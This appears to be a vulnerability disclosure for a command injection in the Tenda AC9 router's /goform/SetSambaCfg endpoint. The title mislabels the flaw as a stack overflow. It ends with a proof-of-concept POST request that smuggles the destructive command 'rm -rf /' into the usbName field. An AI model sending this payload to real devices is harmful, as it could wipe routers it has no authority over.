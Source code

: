 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, route /goform/SetSambaCfg has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
In the /goform/SetSambaCfg back-end handler formSetSamba, the HTTP POST request parameters action and usbName are obtained by the function sub_2B9D4. When the content of the parameter "action" is "del", the parameter "usbName" is concatenated into doSystemCmd with a format string and then executed. An attacker can construct malicious parameters "action" and "usbName" to enable remote code execution.

![img](./img/SetSambaCfg.png)
## Poc
```py
POST /goform/SetSambaCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

action=del&usbName=1; rm -rf /
```
